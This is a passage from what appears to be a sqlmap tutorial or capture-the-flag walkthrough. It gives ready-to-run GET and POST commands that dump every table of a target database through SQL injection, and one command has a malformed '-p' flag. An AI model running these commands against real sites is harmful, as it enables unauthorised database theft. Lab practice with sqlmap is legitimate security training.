 Or we can simply dump all the available databases and tables using the following commands.


#### Using GET based Method

```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
```

```
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
```

#### Using POST based Method

```
sqlmap -r req.txt -D <database_name> --dump-all
```

```
sqlmap -r req.txt-p  -D <database_name> --dump-all
```

I hope you have enjoyed seeing the basics of using sqlmap and its various commands. Now, let’s start the challenge in the next task!﻿


<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****








































